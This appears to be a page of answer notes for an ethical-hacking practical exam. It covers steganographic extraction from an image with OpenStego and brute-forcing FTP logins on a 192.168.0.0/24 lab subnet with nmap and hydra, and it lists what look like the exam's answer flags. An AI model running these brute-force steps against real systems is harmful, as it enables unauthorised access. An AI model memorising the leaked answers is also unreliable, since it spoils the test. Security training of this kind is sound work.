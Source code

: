 7.A forensic investigator has confiscated a computer from a suspect in a data leakage case. He found an image file, MyTrip.jpg, stored in the Documents folder of the "EH Workstation – 2" machine. He suspects that some confidential data is hidden in the image file. Analyze the image file and extract the sensitive data hidden in the file. Enter the sensitive data, an eight-character alpha-numeric string, as the answer. Use "Imagination" if you are stuck.

```bash
Analyze the image file and extract the sensitive data hidden in the file
Use OpenStego on Windows
Select Extract Data
Upload file and select path of destination
Use any pointer from the question as keyword where applicable
Click to Extract Data
#N7#SePFn
---
1. openstego tool in 2019 or use stegonline for online
2. upload the file type password
3. type the flag
---
CrypTool : Encode/Decode Text (File Extension is .hex)
File → Open → Encrypt/Decrypt → Symmetric (Modern) → RC2 → KEY 05 → Decrypt
```

8.Exploit weak credentials used for FTP service on a Windows machine in the 192.168.0.0/24 subnet. Obtain the file, Credential.txt, hosted on the FTP root, and enter its content as the answer.

```bash
Steps:
Identify FTP Service:
nmap -p 21 192.x.x.0/24

Exploit Weak Credentials:
Use a tool like hydra or medusa to perform a brute-force attack on the FTP service using a wordlist.
hydra -L username_file -P password_file 192.168.0.x ftp
Replace <username> with the FTP username and <passwords.txt> with a file containing a list of 
possible passwords.

Connect to FTP Server:
Once you have valid credentials, connect to the FTP server using an FTP client.
ftp 192.168.0.x
Retrieve file:
get file
View Content:
cat file
#hSP#6Csa
---
1. Nmap -p 21 192.168.0.0/24
2. Sudo nmap -sS -A -T4 ip/24
3. hydra -L user.txt -P pass.txt ftp://192.168.0.1
4. ftp 192.168.0.1 and type user name and password login
5. Ls and search for the credential.txt file using find . -name credential.txt.
```
